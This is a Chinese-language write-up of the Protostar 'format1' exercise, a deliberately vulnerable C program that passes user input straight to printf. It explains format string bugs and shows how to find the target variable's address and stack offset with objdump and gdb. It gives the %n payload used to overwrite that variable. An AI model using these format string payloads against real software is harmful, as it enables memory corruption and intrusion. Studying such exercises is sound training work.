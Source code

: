 # format1

## （一） 题目：

源代码：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

int target;

void vuln\(char \*string\)

{

printf\(string\);

if\(target\) {

```
printf\("you have modified the target :\)\n"\);
```

}

}

int main\(int argc, char \*\*argv\)

{

vuln\(argv\[1\]\);

}

## （二）解题过程：

本题的思路也比较简单，通过读取源码，主函数调用vuln函数，vuln函数通过传入的参数控制，传的参数就是字符串，通过传入的字符串覆盖target全局变量位置。

格式化字符串漏洞其实是一种很基本的漏洞类型,成因是printf\(\)函数的参数只给定了需要打印的str,比如这样

printf\(str\);

那么格式化字符串本身,也就是我们的%d,%s,%x,就变成用户可控的情况了。

这里要注意的就是,printf其实算是一个接受变参的函数,格式化字符串之后的

比如

printf\("%x%x",a,b\);

但是这个时候,我们把b去掉 只保留a,却发现仍然打印出了一个数值。

很明显,printf的原理是直接用esp做基准去取参数,所以说这也是比较明显的一个问题了,我们完全可以任意读取其他地址的内存。

而且%n更是提供了写入功能,以参数对应的数值为指针,写入已经被打印出的字符数量。一个比较完整的介绍是。

%\[第几个参数\]$\[对齐格式,比如010是用0补齐,10长度\]x

因此,我们可以通过向第n个参数写入一个地址的方法,再把x换成n,就能写入了。

关键点：

1） 获取target的位置

2）获取当前栈顶到target的距离 多少字节 （或者多少字）

3） 格式字符串

printf\("%s",string\) 和 printf\(string\)是非常不一样的，后者存在漏洞，在构造string时候可以控制，比如后面跟着%x时候就可以输出堆栈的内容。

思路验证：

1\) 定位target的地址有两种方法

用objdump -t ./format1 \| grep target

这样可以找到程序 .bss段里 target的地址

![](/png/52.png)

另外一种方法用gdb找target地址

![](/png/53.png)

2）确定存放target地址的地方和此时的栈顶esp距离

gdb调试，在vuln下断点，代入参数 python的方法

![](/png/54.png)

如上图，此时target数值的地方在0xbffffe89处

0xbffffe89-0xbffffc70= 537

537/4=134\(word\)+1

从esp地方填充137个字+1 ,就到了target地方。

python -c 'print "\x37\x96\x04\x08A%134$n"'

注意在调试过程中会出现地址变化的情况，执行一次成功后，如果还想再调试，最好重启机器。

./format1 \`python -c 'print "\x38\x96\x04\x08AAA%134$x"'\`

下图是重启以后的结果

![](/png/55.png)

ref:

[http://www.atomsec.org/iot/tew654-命令执行漏洞/](http://www.atomsec.org/iot/tew654-命令执行漏洞/)

[http://sh3llc0d3r.com/protostar-exploit-exercises-format1/](http://sh3llc0d3r.com/protostar-exploit-exercises-format1/)

[https://zhuanlan.zhihu.com/p/23197261](https://zhuanlan.zhihu.com/p/23197261)

